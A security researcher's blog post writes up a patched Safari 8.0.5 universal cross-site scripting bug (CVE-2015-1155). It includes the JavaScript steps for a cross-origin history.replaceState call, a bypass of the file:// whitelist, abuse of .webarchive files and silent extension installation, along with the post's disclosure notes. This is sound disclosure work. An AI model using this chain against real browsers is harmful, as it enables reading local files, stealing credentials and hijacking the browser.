 ```yaml
---
layout: post
title: "Adventures in Browser Exploitation Part II: Mac OS X Safari 8.0.5 UXSS"
---
```


This is a writeup of a vulnerability I discovered in Mac OS X Safari 8.0.5 and earlier that allowed malicious websites to run Javascript under an arbitrary domain - a UXSS bug. A UXSS bug is a breakdown in Same Origin Policy - the fundamental security policy that keeps the data in your browser safe. UXSS bugs pop up a lot and it is good to know the scope of such a vulnerability, as this gives you a good idea of the trust boundaries at work within the Safari browser.

### The bug

First, I'll walk through the bug. It all stems from an error page - native error and warning pages in Safari are actually just file URLs: you can see this by browsing to some closed port like `http://localhost:12345`, pulling up the debugger console, and running:

    > window.location.href
    < "file:///Applications/Safari.app/Contents/Resources/"

So error pages are hosted via a file URL. This is somewhat common (AOSP browser does/did this), and is not in itself wrong. However, it does allow an arbitrary website to gain a reference to a window in `file://`. Although you can't get a native Safari error page to show up in an embedded iframe, you can pop open a new window (by convincing the user to click anywhere on the page):

    window.onclick = function() {
      var fileWin = window.open('http://localhost:12345', '_blank');
    }

The variable `fileWin` now references a window that contains content belonging to a `file://` URL. This is still not a problem, because Same Origin Policy should prevent us from accessing or injecting script into this cross-domain window. This is where the actual vulnerability occurs. Browsers allow cross-domain access to a restricted set of properties on a cross-domain window, including `location`, `postMessage`, and `history`. For example:

	> console.log(fileWin.history)
	< [Object object]
	> fileWin.history.replaceState({},{},'/');
	SecurityError

So while we can access the `history` object, we can't access the `pushState` or `replaceState` property of that object. What if we tried calling the `replaceState` function belonging to the current `history` object on the cross-domain `history` object?

	history.replaceState.call(fileWin.history, {}, {}, 'file:///');

Nothing happens. This is because only the `state` changed - a new page was not requested. Let's try reloading the page:

    history.replaceState.call(fileWin.history, {}, {}, 'file:///');
    fileWin.location.reload();

And...

	Safari has unexpectedly crashed.

Okay... After digging in a bit, it turns out Safari has some extra security around navigating a document to a `file://` URL. Basically the browser maintains a whitelist of `file://` URLs that it knows the user has explicitly browsed to and should be allowed. If the desired URL is not on the list, *or is not in a subdirectory of a URL on the list*, the browser crashes on an assertion. This is awesome news - it should prevent an attacker armed with the bug I had discovered from escalating things further.

### Bypassing the URL whitelist

Except there turned out to be an exception in this whitelist - pages in the browser history that are navigated *back* to are allowed to be `file://` URLs. This is to accomodate windows that are restored after Safari has been quit and restarted - these windows also restore their history state, and so may need to be able to navigate "back" to a `file://` URL that the user had visited before quitting the session.

So, the full bypass:

    history.replaceState.call(fileWin.history, {}, {}, 'file:///');
    fileWin.location = 'about:blank';
    fileWin.history.back();

This should pop open a Finder window pointing to `/`. Because the root `file:///` path now exists in the history, an attacker can navigate this window to any valid file URL.

### Powers of a file:// URL in Safari

HTML documents served under a `file://` URL have their own set of powers: they can read the contents of any file on the filesystem, and they can inject Javascript into arbitrary domains (UXSS). However, there is a major restriction: if the HTML document file has Apple's Quarantine attribute (set automatically on download files and mounted filesystems), then it is run under a sandboxed context and has no special powers.

It took some time for me to think of a way to drop a file that could run with the normal `file://` privileges. It turned out .webarchive files still have the usual ridiculous list of powers, regardless of the presence of the Quarantine attribute. By mounting an anonymous FTP drive containing a malicious .webarchive, an attacker could navigate the user's browser to this privileged file.

Now that the attacker could read any file on the filesystem, and could inject script into any domain, where to go from there? Installing a Safari extension would be very useful - this would leave a permanent hook for the attacker in every interaction between the user and the browser. Safari users can install extensions directly from `https://extensions.apple.com`, so I investigated what that API might look like. Turned out to be very simple:

	safari.installExtension("https://data.getadblock.com/safari/AdBlock.safariextz", "com.betafish.adblockforsafari-UAMUU4S2D9");

The above line, when run under `extensions.apple.com`, will silently install the AdBlock Safari extension. Using this same approach, an attacker could load `extensions.apple.com` in a window, then abuse the powers of the malicious .webarchive file to inject script into this window that installed the extension of their choosing.

### Disclosure

This vulnerability was allocated `CVE-2015-1155` and was fixed by Apple in a May 2015 security update for versions Safari 8.0.5, 7.1.5, and 6.2.5. Apple's disclosure can be found [here](https://support.apple.com/en-us/HT204826').

Additionally I have submitted a Metasploit module for this vulnerability, which can be found [here](https://github.com/rapid7/metasploit-framework/pull/5593/files). The module demonstrates cookie database and SSH key theft, as well as silent extension installation.

